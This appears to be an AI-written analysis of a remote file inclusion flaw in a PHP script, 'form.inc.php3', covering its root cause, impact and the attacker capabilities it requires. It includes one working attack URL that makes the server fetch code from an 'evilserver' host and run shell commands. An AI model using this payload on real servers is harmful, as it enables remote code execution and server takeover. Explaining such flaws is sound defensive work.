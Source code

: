 Based on the provided content, here's an analysis of the vulnerability:

**Root cause of vulnerability:**
The vulnerability is caused by a lack of proper input sanitization in the `form.inc.php3` script. Specifically, the script directly includes a file specified through the `lang` parameter in the URL without validating it, leading to remote file inclusion.

**Weaknesses/vulnerabilities present:**
- **Remote File Inclusion (RFI):** The primary vulnerability is the ability to include remote files by manipulating the `lang` parameter.
- **Lack of input sanitization:** The code does not validate or sanitize the `lang` parameter before using it in the `include` statement.

**Impact of exploitation:**
- **Arbitrary code execution:** An attacker can execute arbitrary code on the server by including a malicious file, such as the provided `cmd.gif` example which executes the `cmd` parameter via `system()`.
- **Full system compromise:** If the server allows the execution of commands via `system`, an attacker might gain complete control of the affected server.

**Attack vectors:**
- **HTTP GET request:** The attacker sends a crafted GET request to `form.inc.php3`, providing the URL of the malicious file to include via the `lang` parameter.
- Example attack vector: `<http://server/gb/form.inc.php3?lang=http://evilserver/cmd.gif?&cmd=id;uname%20-a;uptime>`

**Required attacker capabilities/position:**
- **Network access:** The attacker must be able to send HTTP requests to the vulnerable server.
- **Ability to host a malicious file:** The attacker must have a server where they can host a malicious file (e.g., `cmd.gif`) accessible by the vulnerable server.

The provided content gives a good explanation of the vulnerability and a practical example, which includes:
- Code snippet of vulnerable code.
- Exploit example.
- Example of malicious file content.
- Impact of the exploitation (arbitrary code execution).
- Affected version of the application